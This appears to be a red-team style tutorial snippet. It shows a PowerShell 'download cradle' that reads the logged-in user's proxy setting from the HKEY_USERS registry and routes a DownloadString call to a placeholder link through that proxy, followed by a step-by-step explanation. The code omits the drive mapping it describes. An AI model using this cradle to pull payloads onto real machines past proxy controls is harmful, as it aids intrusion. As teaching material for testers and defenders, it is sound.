    $keys = Get-ChildItem 'HKU:\' ForEach ($key in $keys) {if ($key.Name -like "*S-1-5-21-*") {$start = $key.Name.substring(10);break}}
    $proxyAddr=(Get-ItemProperty -Path "HKU:$start\Software\Microsoft\Windows\CurrentVersion\Internet Settings\").ProxyServer
    [system.net.webrequest]::DefaultWebProxy = new-object System.Net.WebProxy("http://$proxyAddr")
    $wc = new-object system.net.WebClient
    $wc.DownloadString("<link>")

&nbsp;

Explanation :

1. We first map the HKEY_USERS registry hive.
2. We then filter in the keys which have **S-1-5-21** in them, SIDs which start with this pattern are User Accounts, exclusive of built-in accounts.
3. We then fetch the value of ProxyServer and store it in a variable
4. We can now set the proxy of the download cradle to this value
5. Followed by making a web request, we can see that it goes through the proxy server

&nbsp;

> Documentation :
>
> - https://docs.microsoft.com/en-us/dotnet/api/system.net.webproxy?view=netframework-4.8
> - https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/new-psdrive?view=powershell-7.2&viewFallbackFrom=powershell-6
> - https://support.microsoft.com/en-gb/topic/29615e3f-0bfc-6e3e-d377-e8986e243a30?msclkid=b900455cbbbd11ecba75059c38cf0d60
